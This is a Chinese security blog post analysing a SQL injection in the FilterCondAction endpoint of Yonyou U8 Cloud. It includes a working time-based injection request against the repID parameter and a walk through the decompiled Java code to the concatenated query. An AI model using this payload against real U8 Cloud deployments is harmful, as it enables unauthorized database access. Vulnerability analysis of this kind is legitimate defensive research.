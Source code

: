 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247487730&idx=1&sn=e6f35ea23151afee71d5af3cfe7380a9

#  用友U8Cloud漏洞 | FilterCondAction SQL注入分析  
原创 chobits02  C4安全   2025-07-18 06:17  
  
前言  
  
又来到了久违的漏洞分析环节，平时习惯性先把文章投稿到奇安信社区平台，然后再在这上面搬一下自己的文章，师傅们要是蹲第一手分析的话可以关注一下，万分感谢：  

```
https://forum.butian.net/index.php/people/1420
```

  
用友U8 Cloud系统
```
FilterCondAction
```

  
方法存在SQL注入漏洞  
  
社区文章审核说这漏洞是23年的？虽然我网上没搜到具体漏洞信息，但也确定不了这个漏洞发掘的时间，遗憾就当个分析文章看看吧  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5QarzbJ87BroKyQQ1VUCJOao2BJiaCiahY8Q2rft5rag8yQDiab94W94JEibQ/640?wx_fmt=gif&from=appmsg "")  
  
漏洞利用的POC如下  

```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.bi.report.rep.FilterCondAction&method=execute&repID=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

  
其中的
```
repID
```

  
参数存在注入，使用延时注入验证下，成功延时5秒  
  
  
首先看漏洞位于
```
FilterCondAction
```

  
接口处，方法的完整路径为
```
nc.ui.bi.report.rep.FilterCondAction
```

  
  
  
这里只关注下面的execute方法，完整代码如下  

```
public ActionForward execute(ActionForm actionForm) {  
    FilterCondForm form = (FilterCondForm)actionForm;  
    String repID = getRequestParameter(&#34;repID&#34;);  
    AdhocModel adhocModel = (AdhocModel)BIWebRepUtil.getRepModel((IUFOAction)this, repID);  
    if (adhocModel == null)  
      return (ActionForward)new ErrorForward(StringResource.getStringResource(&#34;mbirep0007&#34;));   
    form.setRepID(repID);  
    FilterValueDescriptor fvd = null;  
    IAdhocAnalyzer[] anas = adhocModel.getDataCenter().getAnalyzerModel().getAnalyzerByType(0);  
    if (anas != null && anas.length > 0) {  
      FilterValueAnalyzer fva = (FilterValueAnalyzer)anas[0];  
      if (fva.getFilterValueDescriptor() != null)  
        try {  
          fvd = (FilterValueDescriptor)fva.getFilterValueDescriptor().clone();  
        } catch (CloneNotSupportedException e) {  
          AppDebug.debug(e);  
        }    
    }   
    if (fvd == null)  
      fvd = new FilterValueDescriptor();   
    IColumnData[] refFields = getRefFields(repID);  
    if (refFields == null || refFields.length == 0)  
      return (ActionForward)new ErrorForward(StringResource.getStringResource(&#34;mbirep0008&#34;));   
    FilterCondTableModel model = new FilterCondTableModel(fvd, refFields);  
    form.setFilterCondTableModel(model);  
    addSessionObject(getClass().getName(), fvd);  
    ActionForward actionForward = new ActionForward(FilterCondDlg.class.getName());  
    return actionForward;  
}
```

  
首先是方法接收传参
```
repID
```

  
，然后直接调用
```
repID
```

  
的有两个方法  
  
  
先来看第一个，追踪进入
```
getRepModel
```

  
  
  
可以看到
```
repID
```

  
又进入了下面的
```
loadRepModelFromDB
```

  
方法当中，追踪方法来到其中  
  
  
最后
```
repID
```

  
是进了getByIDs方法当中，最终来到漏洞点  
  
  
代码如下  

```
public ValueObject[] getByIDs(String[] strIDs) throws ReportMngException {  
    int iLen = (strIDs == null) ? 0 : strIDs.length;  
    String sWhere = null;  
    if (iLen != 0) {  
      StringBuffer sbWhere = new StringBuffer();  
      sbWhere.append(&#34;pk_reportmodel in (&#34;);  
      for (int i = 0; i < iLen; i++) {  
        sbWhere.append(&#34;'&#34;).append(strIDs[i]).append(&#34;' &#34;);  
        if (i < iLen - 1) {  
          sbWhere.append(&#34;,&#34;);  
        } else {  
          sbWhere.append(&#34;)&#34;);  
        }   
      }   
      sWhere = sbWhere.toString();  
    }   
    ReportVO[] vos = null;  
    try {  
      vos = (ReportVO[])ReportBO_Client.query(sWhere, DimRescource.UFBI_DATASOURCE);  
    } catch (Exception e) {  
      handleException(e);  
    }   
    return (ValueObject[])vos;  
}
```

  
分析下，这个漏洞其实和我之前分析的华天动力OA的SQL注入一样，都是append方法拼接SQL语句，恶意语句可以闭和最后的
```
)
```

  
号导致的  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTIChTbJr7t7BRHGLz6M5Qayk98IlLoJzesypoLhTqkJicwaTzpPE5LXz1fGTRJG463iaMjgNHA68VQ/640?wx_fmt=png&from=appmsg "")  
  
方法中使用
```
pk_reportmodel in ('+repID+')
```

  
这样拼接SQL，就造成了SQL注入漏洞  
  
就这样简单的结束了(*╹▽╹*)  
  
结语  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券，加入链接：https://wiki.freebuf.com/societyDetail?society_id=184**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
  
  
  
